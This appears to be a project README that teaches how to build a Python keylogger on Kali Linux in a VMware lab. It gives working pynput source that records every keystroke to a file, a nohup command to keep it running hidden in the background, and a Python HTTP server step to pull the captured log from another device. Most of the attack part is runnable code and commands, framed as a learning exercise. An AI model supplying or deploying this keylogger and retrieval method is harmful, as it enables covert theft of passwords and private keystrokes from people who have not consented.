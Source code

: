 Project Title: Key logger using Python on Kali Linux

Project Goal
To build and run a Python-based keylogger on Kali Linux inside a VMware environment, log all keystrokes, and export the data via HTTP server or email.

Step-1: Open VMware Workstation, start Kali Linux, and update the system (optional but recommended for best performance and security).
Update - (sudo apt update && sudo apt upgrade -y)
sudo – Runs the command as a superuser (with admin rights).
apt – The package manager used in Kali Linux and other Debian-based systems.
update – Refreshes the list of available packages and their versions from the internet.
&& – Runs the next command only if the previous one is successful.
upgrade – Installs the latest versions of the packages already on your system.
-y – Automatically says "yes" to all prompts during the upgrade.

STEP 2: Install the pynput library, which is used to monitor and record keystrokes in Python.
Install pynput - (pip install pynput)
pynput is a Python library used to control and monitor input devices like the keyboard and mouse. It's commonly used in projects like keyloggers, automation scripts, or accessibility tools.
To check if pynput is installed on your Kali Linux system, open the terminal and type python3 to enter the Python shell. Once inside, type import pynput. If no error appears, it means the library is already installed. You can then exit the Python shell by typing (exit()).
However, if you see an error saying that the module is not found, it means pynput is not installed. In that case, install the library by running the command (pip3 install pynput) in the terminal. If you receive a "command not found" error for pip3, it means pip is not installed on your system. To fix this, install pip by running (sudo apt install python3-pip -y).

pip stands for "Pip Installs Packages",  Python 3 (most common in Kali)
To check if pip3 is installed on your system, run the command (pip3 --version) in the terminal. If pip is installed, it will display the installed version. However, if pip is not installed, you will see an error message saying: "Command 'pip3' not found." In that case, you can install it by running the command (sudo apt install python3-pip -y).
Pip - It is the package manager for Python that allows you to install libraries from the internet, uninstall ones you no longer need, upgrade existing libraries to their latest versions, and handle dependencies automatically, making Python development easier and more organized.

Step-3 Open your Kali Linux home directory, create a file called keylogger.py using the Nano editor, and paste the code inside.

from pynput import keyboard

def on_press(key):
    try:
        with open("keylog.txt", "a") as f:
            f.write(f"{key.char}\n")
    except AttributeError:
        with open("keylog.txt", "a") as f:
            f.write(f"{key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

Press Ctrl + O → Enter (to save)
Press Ctrl + X (to exit)

Step-4 Run the script in the terminal using the command. It will now log all keystrokes to keylog.txt in the same folder.
(python3 keylogger.py)

Step-5 Open another terminal or any application and type some text for example, in a text editor or directly in the terminal. Once you've typed some input, go back to the terminal where you initially ran the script. To stop the script, press Ctrl + C.

Check the log file: (cat keylog.txt) You’ll see the logged keystrokes.

Step-6 To run the script without keeping the terminal open, use the following command
(nohup python3 keylogger.py &)
 This will keep the script running in the background, even after the terminal is closed.

Step-7 File Transfer Using Python HTTP Server
What is Python HTTP Server?
Python has a built-in feature that allows you to turn any folder into a web server. That means you can,Share files from that folder over the network and Download them using a web browser from another device.

This method is useful when you want to download files (like your keylogger log file) from your Kali Linux VM to another device (like your Windows host machine) without USB or SSH.

If you are working in a local lab environment, you can share the file via HTTP.
Command-(python3 -m http.server 8080)

Now, from another device on the network -> Open browser -> Go to: http://<kali_ip>:8080/keylog.txt
